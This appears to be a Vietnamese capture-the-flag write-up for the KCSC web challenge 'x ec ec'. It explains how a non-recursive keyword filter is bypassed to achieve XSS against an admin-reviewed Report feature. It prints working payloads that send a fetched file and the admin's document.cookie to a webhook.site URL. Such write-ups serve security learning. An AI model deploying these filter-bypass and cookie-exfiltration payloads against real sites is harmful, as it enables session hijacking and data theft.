 ## x ec ec 

![image](../img/2.1.png)

nhìn tên chall mình đã biết tác giả muốn làm gì ở bài này rùi, nên khá nhanh để mình xác định việc phải làm -> XSS

ứng dụng cho phép input HTML và render nó, ngoài ra còn có thêm feature `Report`
![image](../img/2.2.png)

feature `Report` sẽ được admin với account local check
![image](../img/2.3.png)

-> XSS Reflected

mình thử sai một số payload đơn giản như 
```
<script>alert(origin)</script>
javascript:alert(origin)
```
thì phát hiện bị filter đi `script, javascript:`, lúc sau mình dùng burp thì phát hiện nó filter thêm `on`

![image](../img/2.4.png)

nhưng ngay sau đó mình phát hiện ra nó không filter đệ quy, tức là nếu mình input vào `sscriptcript` thì nó sẽ return về `script`
và những gì được render sẽ nằm trên parameter `userInput`
![image](../img/2.5.png)



okey, exploit sẽ như sau:

1.input HTML cho nó render 
2.gửi link chứa parameter vừa render HTML cho admin để admin view

Chall này ban đầu mình khá mất thời gian, vì nghĩ là flag nằm ở `/flag.txt` nên cố gắng fetch nó ra webhook (khá may mắn vì server cho phép fetch ra ngoài webhook). Payload ban đầu mình dùng như sau:

```
<img src="xxx" oonnerror="fetch('/flag.txt').then(
    functioonn(respoonnse){
        return respoonnse.text()}
    ).then(
        functioonn(string){
            fetch('https://webhook.site/4b9f4c02-9e71-470b-a3f8-7e914346d4a4?flag='+encodeURI(string))
        }
    );">
```

nhưng hứng bên webhook không thấy nhả về flag, mình còn tưởng payload mình sai ở đâu đó khá lâu :<. Cũng đã thử thêm `../../../flag.txt` để xem nó có nằm trong folder sâu hơn không nhưng nohope. Sau đó mới nhận ra là có khả năng trên server không có file /flag.txt

Mình mới chuyển qua exploit cookie của admin. và đây là payload của mình:

```
<img src="x" oonnerror="fetch('https://webhook.site/4b9f4c02-9e71-470b-a3f8-7e914346d4a4?cookie=' + encodeURICompoonnent(document.cookie));">
```

gửi Report cho admin view sau đó ra webhook nhận Flag
![image](../img/2.6.png)

FLAG:`KCSC{XSS_s0_ez_c51242915de4a05d20ac3870c87a9da1}`